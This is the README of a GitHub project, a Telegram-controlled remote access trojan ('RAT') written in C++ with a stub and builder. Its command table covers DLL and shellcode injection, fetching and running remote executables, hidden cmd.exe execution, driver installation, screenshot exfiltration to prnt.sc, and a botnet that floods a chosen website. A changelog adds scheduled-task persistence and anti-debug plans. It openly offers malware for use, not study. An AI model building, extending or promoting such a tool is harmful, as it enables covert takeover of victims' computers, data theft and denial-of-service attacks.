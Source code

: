 ﻿# -= B4DB4B3-RAT =-
 Program for remote computer management using Telegram on C++ - by B4DB4B3   
 P.S: I didn't do animations on buttons. I can do it in the future, If you like the project
### [Interface]  
 ![UI](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/NEWUI.png)   
 ![EXAMPLE](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/COMMANDLIST.png)   
### [Weight of stub and builder]  
 #### P.S: Around 400-300 KB :)
 ![WEIGHT](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/WEIGHT.png)   
 #### Update: (latest) i sad :( (but it's not too big)
 ![UP_WEIGHT](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/raise_weight.png)   


# [Commands (Will be added)]
<details>
	<summary>View command list</summary>
	
### Process manager:      
 Command name         | Parameters                             | Description
 -------------------- | -------------------------------------- | -----------
 /user[ID] processes  |                                        | get process list    
 /user[ID] closeproc  | [processname.exe]                      | close process    
 /user[ID] inject_dll | [processname.exe] [C:\Path\To\File.dll]| inject dll in process
 /user[ID] inject_shell | [processname.exe] [shellcode]          | inject shellcode in process
 
### Auxiliary: 
 Command name         | Parameters                                              | Description
 -------------------- | ------------------------------------------------------- | -----------
 /user[ID] loader     | [https://google.com/file.exe] [C:\ProgramData\file.exe] | upload file from [LINK] to [PATH]    
 /user[ID] run        | [C:\ProgramData\file.exe] [Args to run file / Or empty] | run file from [PATH] with arguments [ARGS]   
   
### Jokes:   
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] disable pc      |                                                         | disable computer of user    
 /user[ID] close           |                                                         | close user   
 /user[ID] disable display |                                                         | disable display user    
   
### File manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] dir             | [C:\Folder]                                             | show files and folders in directory    
 /user[ID] dir del_file    | [C:\Path\To\File.exe]                                   | delete file in directory    

### Service manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] service show    |                                                         | show all drivers in system    
 /user[ID] service add     | [Name] [DisplayName] [C:\ProgramData\yourdriver.sys] [Type-Driver] [Start-Type] | add your driver in system, Check Type-Driver and Start-Type values in "Service manager parse table"    
 /user[ID] service delete  | [NameService]                                           | delete driver from system
 /user[ID] service start   | [NameService]                                           | start the stopped service
 /user[ID] service stop    | [NameService]                                           | stop the started service


### Screen manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] screenshot      |                                                         | take screenshot, upload her on prnt.sc and send you 

### BotNet:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /botnet start             | [https://google.com]                                    | all users send requests on site
 /botnet stop              |                                                         | stop sending requests

### CMD manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] system          | [/c ping google.com]                                    | run cmd.exe with arguments (hidden)

### CMD manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] system          | [/c ping google.com]                                    | run cmd.exe with arguments (hidden)

### RAT:   
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /online                   |                                                         | show online users   

</details>
	
# [Coming soon]
- [x] Add file manager
- [x] Add function to get screenshot
   - [ ] Add function to record desktop
   - [ ] Add function to record microphone
- [x] Add more jokes (open url, block url, close process and etc.)
- [x] Add process control (inject dll, shellcode and etc.)
- [x] Add more information about PC 
- [x] Add Service manager (for deleting, showing and adding your system drivers)
- [ ] Add Anti-analysis + Anti-debug functions

# [CHANGELOG]
<details>
  <summary>View changelog</summary>
	
Date       | Time  | Description
---------- | ----- | -----------
17.10.2020 | 16:30 | Code is optimized, added commands   
18.10.2020 | 18:40 | Code is refactored and optimized, fixed bugs (command inject dll didn't work), added new function in builder (write in scheduler task), updated GUI, added re-launch protection, added commands ![NEWUI](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/NEWUI.png)
19.10.2020 | 01:30 | Deleted traces of debugging (sorry for this), added more information about PC ![NEWINFO](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/NEWINFO.png)
19.10.2020 | 17:20 | Clear warnings, added Service manager ![SERVICE](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/SERVICE.png)   
20.10.2020 | 11:19 | Code review, bug fix, added new function (screen manager) (wrote yourself api on wininet for work with prnt.sc api)    ![SCREEN](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/SCREENTOOL.png)  
20.10.2020 | 18:49 | Update GUI (change location objects)
24.10.2020 | 17:11 | Added function for inject shellcode in process ![SHELLCODE](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/INJECT_SHELL.png)
30.10.2020 | 14:29 | Added botnet ![BOTNET](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/BotNet.png)
03.11.2020 | 16:53 | Fixed command "system" (cmd manager). Added new commands in service manager (start, stop driver). Cmd manager: ![EXAMPLE1](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/system-example1.png) ![EXAMPLE2](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/system-example2.png) 
07.11.2020 | 22:16 | Code refactored. Warnings deleted. Added encryption for your botapi with AES256 (To avoid being stolen from hex). Update list of processes (AntiDebug). ![BeforeBotApi](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/Before_BotApi.png) ![AfterBotApi](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/After_BotApi.png)

</details>

## Service manager parse table:
### [service add] params [Type] driver
String param             | Value
------------------------ | --------------------------
win32-service            | SERVICE_WIN32
adapter-service          | SERVICE_ADAPTER
kernel-driver            | SERVICE_DRIVER
interactive-process      | SERVICE_INTERACTIVE_PROCESS
user-serice              | SERVICE_USER_SERVICE
userservice-instance     | SERVICE_USERSERVICE_INSTANCE
pkg-service              | SERVICE_PKG_SERVICE


### [service add] param [StartType] driver

String param             | Value
------------------------ | --------------------------
auto-start               | SERVICE_AUTO_START
boot-start               | SERVICE_BOOT_START
demand-start             | SERVICE_DEMAND_START
disabled                 | SERVICE_DISABLED
system-start             | SERVICE_SYSTEM_START

#### Read more here: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea

# [LICENSE]
 ![B4DB4B3-RAT](https://github.com/4B4DB4B3/B4DB4B3-RAT) is licensed under MIT License - https://mit-license.org/
